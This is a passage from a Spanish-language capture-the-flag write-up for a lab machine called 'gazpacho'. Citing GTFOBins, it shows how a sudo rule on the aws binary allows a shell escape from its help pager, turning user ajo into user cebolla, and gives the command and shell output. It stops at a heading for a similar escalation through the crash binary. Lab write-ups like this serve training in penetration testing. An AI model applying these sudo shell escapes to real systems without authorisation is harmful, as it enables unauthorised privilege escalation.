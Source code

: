 Busquemos en la **guía de GTFOBins** cómo podemos abusar del **binario aws**, para escalar privilegios y convertirnos en el **usuario cebolla**:
* <a href="https://gtfobins.github.io/gtfobins/aws/" target="_blank">GTFOBins: aws</a>

Ocuparemos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura11.png">
</p>

Vamos a aplicar un **Shell Escape**.

Usa el comando:
```bash
ajo@gazpacho:~$ sudo -u cebolla aws help
```

Ahora escapemos del manual de ayuda:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura12.png">
</p>

Observa la terminal:
```bash
cebolla@gazpacho:/home/ajo$ 
cebolla@gazpacho:/home/ajo$ whoami
cebolla
cebolla@gazpacho:/home/ajo$ cd ../cebolla/
cebolla@gazpacho:~$
```
Ya somos el **usuario cebolla**.

<br>

<h2 id="crash">Abusando de Privilegios Sobre Binario crash para Escalar Privilegios (Shell Escape) y Convertirnos en el Usuario pimiento</h2>
